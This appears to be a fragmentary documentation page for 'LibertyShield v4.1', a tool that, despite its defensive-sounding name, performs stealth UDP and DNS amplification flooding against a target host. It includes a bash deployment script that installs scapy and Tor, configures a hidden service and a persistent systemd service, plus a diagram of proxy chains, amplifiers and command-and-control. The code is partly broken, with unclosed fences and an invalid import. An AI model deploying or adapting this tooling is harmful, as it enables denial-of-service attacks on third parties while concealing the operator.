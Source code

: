 # LibertyShield v4.1 Documentation

## Enhanced UDP Dispatch
```python
from LibertyShield_v4.1 import UDPEnhancements
UDPEnhancements.stealth_udp_flood("target.com", 80, 60, protocol='dns')




**`Installation_Setup.sh`**  
```bash
#!/bin/bash
# LibertyShield v4.1 Deployment Script

# Install dependencies
apt update
apt install -y python3-pip docker.io tor
pip3 install pycryptodome numpy scapy

# Configure Tor for secure logging
echo "HiddenServiceDir /var/lib/tor/logging_service" >> /etc/tor/torrc
echo "HiddenServicePort 80 127.0.0.1:8080" >> /etc/tor/torrc
systemctl restart tor

# Set up systemd service
cat > /etc/systemd/system/liberty-shield.service <<EOF
[Unit]
Description=LibertyShield v4.1
After=network.target

[Service]
ExecStart=/usr/bin/python3 /opt/liberty/LibertyShield_v4.1.py
WorkingDirectory=/opt/liberty
Restart=always
User=liberty

[Install]
WantedBy=multi-user.target
EOF

# Create secure user
useradd -m -s /bin/false liberty
chown -R liberty:liberty /opt/liberty

# Enable service
systemctl daemon-reload
systemctl enable liberty-shield



[Client] --> [Proxy Chain] --> [Amplifiers] --> [Target]
                ^
                |
           [Command & Control]
